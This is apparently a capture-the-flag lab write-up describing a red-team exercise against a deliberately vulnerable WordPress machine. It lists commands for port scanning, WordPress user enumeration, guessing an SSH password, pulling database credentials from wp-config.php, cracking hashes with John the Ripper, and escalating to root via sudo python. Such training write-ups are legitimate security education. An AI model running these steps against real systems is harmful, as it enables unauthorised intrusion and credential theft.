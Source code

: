 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Command: $ nmap -sV 192.168.1.110
  
 ![](images/NmapScan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open ssh
  - Port 80/tcp open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp Open netbios-ssn
  - Poert 445/tcp Open netbios-ssn
  

The following vulnerabilities were identified on each target:
- Target 1
  - List of Critical Vulnerabilities
Following user were identified by running wpscan command

Command: wpscan --url http://192.168.1.110/wordpress --enumerate u

Two users can be seen:

![](images/user.png)

With a simple brut force user Michael password was cracked: Password was "michael"

Command:ssh michael@192.168.1.110

password: michael

![](images/Password.png)

 `flag1.txt`: 
 
   -Flag 1 was found in the following director:
    Command: cd /var/www/html
           : ls -al
           : nano services.html
           
![](images/Flag.png)
![](images/Flag1.png)

`flag2.txt`:

    -Flage 2 was found in following directories:
     
     Command: cd /var/www/
            
            : ls -al

![](images/flag2.png)


### Exploitation

Mysql server login credentials was listed in wp-config.php file from where steven password was cracked using john ripper and his account was used then to execute python to escalte root preveliage. Following steps were involved

Step 1:
-SSH into Michael account

command: ssh micheal@192.168.1.110

-Login credentials using MYSQL server, were found in wp-config.php file within var/www/html/wordpress directory.

-Flag 3 was found in the wp_posts table in the wordpress database.


Command: mysql -u root -p

password: R@v3nSecurity
  
  mysql> use wordpress;
        
        show table;
        
        SELECT * FROM wp_users;
        
        SELECT * FROM wp_posts;

![](images/WP-TABLE.png)
![](images/Flag3.png)


Step 2:
Password was cracke using john ripper uing following command
command: john wp_hashes.txt
user steven password is cracked: pink84

Step 3:

Once the password hash was cracked, then SSH into Steven to execute python to escalte root privilege

Command: ssh steven@192.168.1.110

password: pink84
        
        :sudo -l
        
        :sudo python -c 'import pty;pty.spawn ('/bin/bash");'
        
        :cd /root
        
        :ls -al
        
        :cat falg4.txt
        
![](images/flag4.png)



